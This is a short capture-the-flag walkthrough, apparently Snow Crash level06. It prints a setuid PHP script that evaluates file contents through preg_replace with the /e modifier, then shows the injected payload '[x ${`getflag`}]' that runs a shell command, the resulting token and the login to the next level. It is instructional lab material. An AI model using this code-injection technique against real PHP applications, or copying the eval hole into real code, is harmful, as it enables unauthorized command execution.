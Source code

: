 ## Check files in home

ls -la

->  -rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
	-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

## check level06.php, this files have permissions in flag06 when executed then

cat level06.php

```php
<?php
	function y($m) {
		$m = preg_replace("/\./", " x ", $m);
		$m = preg_replace("/@/", " y", $m);
		return $m;
	}
	function x($y, $z) {
		$a = file_get_contents($y);
		$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
		$a = preg_replace("/\[/", "(", $a);
		$a = preg_replace("/\]/", ")", $a);
		return $a;
	}
	$r = x($argv[1], $argv[2]); print $r;
?>
```

# create a file with an exploit to execute get flag in this line "$r = x($argv[1], $argv[2]); print $r;"

echo '[x ${`getflag`}]' > /tmp/exploit

# finally execute level06 script with the exploit file

./level06 /tmp/exploit

->  PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
	in /home/user/level06/level06.php(4) : regexp code on line 1

## Log in to user level07
su level07 (password: wiok45aaoguiboiki2tuin6ub)